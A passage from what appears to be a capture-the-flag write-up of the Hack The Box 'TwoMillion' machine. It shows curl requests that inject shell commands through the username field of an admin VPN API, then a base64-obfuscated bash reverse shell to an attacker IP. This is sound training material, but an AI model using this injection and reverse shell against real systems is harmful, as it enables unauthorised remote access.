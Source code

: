 Let's try to generate an admin VPN now.

```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    59    0    59    0     0     54      0 --:--:--  0:00:01 --:--:--    55
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

I added the username in the data field.

<figure><img src="../src/TwoMillion/generate.png"></figure>

Since its sending the VPN through the command, It might be possible its running it from `exec` or `system` PHP commands. It might be possible to inject commands by using `;id;` after the username.

```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"username": "testuser;id;"}' 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's try to put in a reverse shell.

```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"username": "testuser;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40NC80NDQ0IDA+JjEK | base64 -d | bash;"}' 
```

<figure><img src="../src/TwoMillion/wwwdata.png"></figure>